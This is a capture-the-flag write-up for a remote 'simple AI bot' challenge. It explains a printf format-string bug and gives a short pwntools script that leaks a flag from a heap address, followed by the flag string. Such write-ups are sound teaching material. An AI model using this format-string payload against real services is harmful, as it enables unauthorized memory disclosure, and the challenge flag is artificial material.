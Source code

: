 ## Description
With everything and everyone going AI today, we also are developing our own AI bot. It is a first draft and it still requires some work, but feel free to test it out.

> Connection:

> nc simple-ai-bot.ctf.zone 4242

## Solution

This is a remote challenge with no file given. You can send inputs but only a limited length, so no overflow. There is a printf vulnerability that lets us read data from the stack. When we send `flag`, the server gives us the flag’s address on the heap (like `0x60deebdbc040`) in a 64-bit system. We use the printf bug to read the flag from that address.

![TERMINAL](nc_preview.png)

<b>solved.py<b>

```
from pwn import *

r = remote('simple-ai-bot.ctf.zone', 4242)

r.sendlineafter(b'> ', b'flag')
flag_addr = int(r.recvuntil(b'\n\n').split()[-1], 16)
print(f"[+] Flag address: {hex(flag_addr)}")

payload = b'%7$sTCCC' + p64(flag_addr)
r.sendlineafter(b'> ', payload)
print(r.recvuntil(b'}').decode('utf-8'))
```

<b>Output<b>

![SOLVED](solved_flag.png)

### Flag
```
flag{bee82de11dda03908f3f3d41e2795cdf}
```